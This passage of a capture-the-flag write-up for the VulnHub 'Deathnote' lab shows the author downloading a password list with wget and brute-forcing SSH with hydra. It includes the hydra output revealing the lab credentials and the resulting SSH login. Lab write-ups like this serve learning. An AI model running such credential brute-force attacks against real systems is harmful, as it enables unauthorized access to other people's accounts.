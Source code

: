 ![image](/images/deathnote/login-pages.png)

next I take the file notes.txt using wget

![image](/images/deathnote/notes.png)

```
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt 
```

After I got the notes.txt , then I looked at the contents of the file and it turned out that the contents were in the form of a list of passwords. Then the next step I brutforced using hydra. Before I bruteforce the notes.txt file I, changed it to pass and I create a user list with user names containing the names of Kira and l, because that's the only user I know. if you get more users you can enter it as a list.

# HYDRA 
---

```
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ hydra -L user -P pass 192.168.56.105 ssh           
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-30 21:07:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 129 login tries (l:3/p:43), ~9 tries per task
[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105   login: l   password: death4me
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-30 21:07:53
```

After I get the next user and password I do ssh

```
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ ssh l@192.168.56.105   
l@192.168.56.105's password: 
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 30 10:09:22 2022 from 192.168.56.1
l@deathnote:~$
```
